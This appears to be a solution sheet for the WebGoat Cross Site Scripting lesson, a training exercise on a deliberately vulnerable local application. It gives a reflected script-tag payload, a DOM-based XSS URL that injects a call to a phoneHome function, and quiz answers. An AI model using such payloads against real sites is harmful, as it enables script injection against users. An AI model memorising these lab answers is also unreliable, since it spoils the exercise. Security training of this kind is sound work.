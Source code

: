 # Cross Site Scripting
### 2
yes

### 7
Enter your credit card number: <script>alert("hej")</script>

### 10
start.mvc#test

### 11
open console
http://localhost:8080/WebGoat/start.mvc#test/%3Cscript%3Ewebgoat.customjs.phoneHome()%3C%2Fscript%3E

### 12
1 - 4
2 - 3
3 - 1
4 - 2
5 - 4	